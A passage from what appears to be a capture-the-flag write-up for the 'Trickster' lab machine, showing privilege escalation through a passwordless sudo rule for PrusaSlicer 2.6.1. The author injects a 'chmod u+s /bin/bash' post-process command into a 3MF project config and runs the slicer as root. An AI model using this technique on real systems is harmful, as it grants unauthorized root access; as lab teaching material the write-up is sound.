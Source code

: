 SSH with user ```adam``` and now check file sudo permissions can run with this user

```console
sudo -l
Matching Defaults entries for adam on trickster:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User adam may run the following commands on trickster:
    (ALL) NOPASSWD: /opt/PrusaSlicer/prusaslicer
```

Check prusaslicer is version 2.6.1. Check some exploitable in prusaslicer 2.6.1, we can find [exploit-db](https://www.exploit-db.com/exploits/51983)

So we can edit the m3f in file in ```Metadata/Slic3r_PE.config``` in 2 lines
+ Add the start of file ```; post_process = "chmod u+s /bin/bash"```
+ Change file in line ```; output_filename_format = exploit.gcode```

Notice that cp the m3f to folder ```/tmp``` or something :v 

And now run with sudo permissions

```console
adam@trickster:/opt/PrusaSlicer$ sudo ./prusaslicer -s /tmp/Trickster.3mf 
10 => Processing triangulated mesh
10 => Processing triangulated mesh
20 => Generating perimeters
20 => Generating perimeters
30 => Preparing infill
45 => Making infill
30 => Preparing infill
10 => Processing triangulated mesh
20 => Generating perimeters
45 => Making infill
30 => Preparing infill
10 => Processing triangulated mesh
20 => Generating perimeters
45 => Making infill
30 => Preparing infill
10 => Processing triangulated mesh
20 => Generating perimeters
45 => Making infill
30 => Preparing infill
45 => Making infill
65 => Searching support spots
65 => Searching support spots
65 => Searching support spots
65 => Searching support spots
65 => Searching support spots
69 => Alert if supports needed
print warning: Detected print stability issues:

Loose extrusions
Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere

Collapsing overhang
Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere

Low bed adhesion
TRICKSTER.HTB, Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere

Consider enabling supports.
Also consider enabling brim.
88 => Estimating curled extrusions
88 => Estimating curled extrusions
88 => Estimating curled extrusions
```